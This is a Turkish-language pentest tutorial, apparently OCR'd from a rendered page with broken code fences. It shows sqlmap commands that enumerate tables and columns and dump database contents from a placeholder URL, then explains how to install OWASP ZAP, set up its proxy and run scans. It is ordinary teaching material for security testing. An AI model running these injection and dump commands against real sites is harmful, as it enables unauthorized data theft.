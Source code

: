 ```
bash
```bash
```bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi --tables
```
## Kolonları Listeleme:
```
bash
```bash
```bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi -T tablo_adi --columns
```
## Kritik Verileri Çekme:
```
bash
```bash
```bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi -T tablo_adi -C kolon_adi --dump
```
```


OWASP ZAP Nedir? Nasıl Kullanılır?
## OWASP ZAP Nedir?
OWASP ZAP (Zed Attack Proxy), web uygulamalarında güvenlik açıklarını taramak ve analiz etmek için kullanılan açık kaynaklı bir sızma testi aracıdır. OWASP tarafından geliştirilmiş olup, özellikle web güvenliği testleri yapan kişiler ve bug bounty avcıları için kullanışlıdır.
ZAP’ın temel özellikleri şunlardır:
✅ Otomatik güvenlik taraması (SQL Injection, XSS, CSRF gibi açıkları bulma)
✅ Proxy sunucu olarak çalışma (HTTP ve HTTPS trafiğini yakalayıp değiştirme)
✅ Manuel güvenlik testleri için araçlar (Fuzzer, Active Scan, Spidering)
✅ API test desteği (WebSocket ve REST API taramaları yapabilir)
✅ Otomatik raporlama

- OWASP ZAP Nasıl Kullanılır?
1. OWASP ZAP Kurulumu
Resmi siteye git: 🔗 https://www.zaproxy.org/download/
İşletim sistemine uygun sürümü indir ve yükle.
Çalıştır ve başlat.

2. ZAP Kullanımı (Temel Adımlar)
1. Hedef Web Sitesini Belirleme
ZAP'ı açtıktan sonra hedef web sitesini ekle:
Quick Start → URL Gir → "Attack" butonuna bas

2. Proxy Ayarlarını Yapılandırma
ZAP, bir proxy sunucu gibi çalışır ve tarayıcıdan gelen istekleri yakalar.
Tarayıcıyı ZAP’ın proxy’sine yönlendirmek için:
Proxy IP: 127.0.0.1
Proxy Port: 8080
Tarayıcının proxy ayarlarını bu şekilde değiştirerek ZAP ile web trafiğini analiz edebilirsin.

3. Pasif ve Aktif Tarama Yapma
- Pasif Tarama: (Siteyi analiz eder, ancak saldırı yapmaz)
Spider Scan → Site haritası çıkartılır
Passive Scan → Açıklar pasif olarak analiz edilir

- Aktif Tarama: (Saldırı simülasyonu yapar)
Active Scan → SQLi, XSS, CSRF, SSRF gibi açıkları test eder
"Start Scan" butonuna basarak aktif tarama başlatabilirsin

4. Manuel Pentest İçin Fuzzer Kullanımı
```
